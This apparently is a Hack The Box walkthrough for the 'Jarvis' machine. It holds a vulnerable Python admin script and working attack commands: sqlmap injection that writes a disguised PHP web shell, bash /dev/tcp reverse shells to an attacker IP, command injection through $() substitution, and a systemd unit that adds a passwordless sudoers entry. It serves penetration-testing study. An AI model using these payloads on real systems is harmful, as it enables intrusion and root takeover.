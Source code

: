 Jarvis is a medium difficulty Linux box running a web server, which has DoS and brute force protection enabled. A page is found to be vulnerable to SQL injection, which requires manual exploitation. This service allows the writing of a shell to the web root for the foothold. The www user is allowed to execute a script as another user, and the script is vulnerable to command injection. On further enumeration, systemctl is found to have the SUID bit set, which is leveraged to gain a root shell.


sqlmap -u "http://10.129.229.137/room.php?cod=1" --dbms=mysql -p cod --technique=T --time-sec=10 --level=5 --risk=3 --random-agent --delay=1 --safe-url=http://10.129.229.137/ --safe-freq=10 --sql-query="SELECT @@global.document_root"


#!/usr/bin/env python3
from datetime import datetime
import sys
import os
from os import listdir
import re

def show_help():
    message='''
********************************************************
* Simpler   -   A simple simplifier ;)                 *
* Version 1.0                                          *
********************************************************
Usage:  python3 simpler.py [options]

Options:
    -h/--help   : This help
    -s          : Statistics
    -l          : List the attackers IP
    -p          : ping an attacker IP
    '''
    print(message)

def show_header():
    print('''***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************
''')

def show_statistics():
    path = '/home/pepper/Web/Logs/'
    print('Statistics\n-----------')
    listed_files = listdir(path)
    count = len(listed_files)
    print('Number of Attackers: ' + str(count))
    level_1 = 0
    dat = datetime(1, 1, 1)
    ip_list = []
    reks = []
    ip = ''
    req = ''
    rek = ''
    for i in listed_files:
        f = open(path + i, 'r')
        lines = f.readlines()
        level2, rek = get_max_level(lines)
        fecha, requ = date_to_num(lines)
        ip = i.split('.')[0] + '.' + i.split('.')[1] + '.' + i.split('.')[2] + '.' + i.split('.')[3]
        if fecha > dat:
            dat = fecha
            req = requ
            ip2 = i.split('.')[0] + '.' + i.split('.')[1] + '.' + i.split('.')[2] + '.' + i.split('.')[3]
        if int(level2) > int(level_1):
            level_1 = level2
            ip_list = [ip]
            reks=[rek]
        elif int(level2) == int(level_1):
            ip_list.append(ip)
            reks.append(rek)
        f.close()
	
    print('Most Risky:')
    if len(ip_list) > 1:
        print('More than 1 ip found')
    cont = 0
    for i in ip_list:
        print('    ' + i + ' - Attack Level : ' + level_1 + ' Request: ' + reks[cont])
        cont = cont + 1
	
    print('Most Recent: ' + ip2 + ' --> ' + str(dat) + ' ' + req)
	
def list_ip():
    print('Attackers\n-----------')
    path = '/home/pepper/Web/Logs/'
    listed_files = listdir(path)
    for i in listed_files:
        f = open(path + i,'r')
        lines = f.readlines()
        level,req = get_max_level(lines)
        print(i.split('.')[0] + '.' + i.split('.')[1] + '.' + i.split('.')[2] + '.' + i.split('.')[3] + ' - Attack Level : ' + level)
        f.close()

def date_to_num(lines):
    dat = datetime(1,1,1)
    ip = ''
    req=''
    for i in lines:
        if 'Level' in i:
            fecha=(i.split(' ')[6] + ' ' + i.split(' ')[7]).split('\n')[0]
            regex = '(\d+)-(.*)-(\d+)(.*)'
            logEx=re.match(regex, fecha).groups()
            mes = to_dict(logEx[1])
            fecha = logEx[0] + '-' + mes + '-' + logEx[2] + ' ' + logEx[3]
            fecha = datetime.strptime(fecha, '%Y-%m-%d %H:%M:%S')
            if fecha > dat:
                dat = fecha
                req = i.split(' ')[8] + ' ' + i.split(' ')[9] + ' ' + i.split(' ')[10]
    return dat, req
			
def to_dict(name):
    month_dict = {'Jan':'01','Feb':'02','Mar':'03','Apr':'04', 'May':'05', 'Jun':'06','Jul':'07','Aug':'08','Sep':'09','Oct':'10','Nov':'11','Dec':'12'}
    return month_dict[name]
	
def get_max_level(lines):
    level=0
    for j in lines:
        if 'Level' in j:
            if int(j.split(' ')[4]) > int(level):
                level = j.split(' ')[4]
                req=j.split(' ')[8] + ' ' + j.split(' ')[9] + ' ' + j.split(' ')[10]
    return level, req
	
def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)

if __name__ == '__main__':
    show_header()
    if len(sys.argv) != 2:
        show_help()
        exit()
    if sys.argv[1] == '-h' or sys.argv[1] == '--help':
        show_help()
        exit()
    elif sys.argv[1] == '-s':
        show_statistics()
        exit()
    elif sys.argv[1] == '-l':
        list_ip()
        exit()
    elif sys.argv[1] == '-p':
        exec_ping()
        exit()
    else:
        show_help()
        exit()


 sqlmap -u http://10.129.19.171/room.php?cod=6 -p cod --delay=2 --dbms=mysql --os-shell --web-root=/var/www/html --random-agent --skip-waf --batch --technique=T

 sqlmap -u http://10.129.19.171/room.php?cod=6 -p cod --delay=2 --dbms=mysql --file-write=shell.php --file-dest=/var/www/html/lndex.php --random-agent --skip-waf --batch --technique=T

  curl -X POST http://10.129.19.171/lndex.php --data-urlencode exec=ls

curl -X POST http://10.129.19.171/lndex.php --data-urlencode 'exec=bash -c "bash -i >& /dev/tcp/10.10.14.27/16106 0>&1"'

echo 'bash -c "bash -i >& /dev/tcp/10.10.14.27/16107 0>&1"' >/tmp/lndex.sh

chmod a+x /tmp/lndex.sh

sudo -u pepper /var/www/Admin-Utilities/simpler.py -p

echo 'bash -c "bash -i >& /dev/tcp/10.10.14.26/16107 0>&1"' > /tmp/lndex.sh
chmod a+x /tmp/lndex.sh
$(/tmp/lndex.sh)


find / -perm -4000 -user root -group pepper 2>/dev/null
/bin/systemctl


cd /home/pepper
echo '[Service]
Type=oneshot
ExecStart=/bin/bash -c "echo pepper ALL=\(ALL\) NOPASSWD: ALL >> /etc/sudoers"
[Install]
WantedBy=multi-user.target' > escalate.service

systemctl link /home/pepper/escalate.service

systemctl start escalate.service


